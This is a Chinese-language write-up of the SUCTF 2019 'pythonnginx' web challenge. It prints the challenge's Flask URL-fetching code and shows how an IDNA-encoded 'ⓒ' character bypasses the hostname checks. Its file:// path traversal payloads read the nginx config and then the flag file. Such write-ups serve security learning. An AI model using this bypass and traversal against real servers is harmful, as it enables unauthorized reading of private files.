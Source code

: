 # SUCTF 2019

## Web

### pythonnginx

通过查看源代码可以发现以下内容。

```python
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url") # 设 url=https://xxx.com/index.php
    host = parse.urlparse(url).hostname # xxx.com
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url)) # ['https', 'xxx.com', '/index.php', '', '']
    host = parts[1] # xxx.com
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
#    <!-- Dont worry about the suctf.cc. Go on! -->
#    <!-- Do you know the nginx? -->
```

本题需要绕过第一层和第二层的域名判断，并且在经历一次 idna 编码后的第三层中又要符合 host 名为 `suctf.cc` ，idna 的例子如下。

```python
print('ⓒ'.encode('idna').decode('utf-8'))
# c
```

因此可以通过版权符号来绕过第一层和第二层的绕过并且又符合 host 名为 `suctf.cc` 。又因为题目中包含提示 `Do you know the nginx` 故需要从 nginx 的相关文件中来找 flag ，最后可以在 `/usr/local/nginx/conf/nginx.conf` 中找到相关信息，Payload 以及回显如下所示。

```nginx
# url=file://suctf.cⓒ/../../../../../../../../usr/local/nginx/conf/nginx.conf

server { 
    listen 80; 
    location / { 
        try_files $uri @app; 
    } 
    location @app { 
        include uwsgi_params; 
        uwsgi_pass unix:///tmp/uwsgi.sock; 
    } 
    location /static {
        alias /app/static; 
    } 
    # location /flag { 
    #     alias /usr/fffffflag; 
    # } 
}
```

通过构造以下 Payload 即可得到 flag 。

```
url=file://suctf.cⓒ/../../../../../../../../usr/fffffflag
```
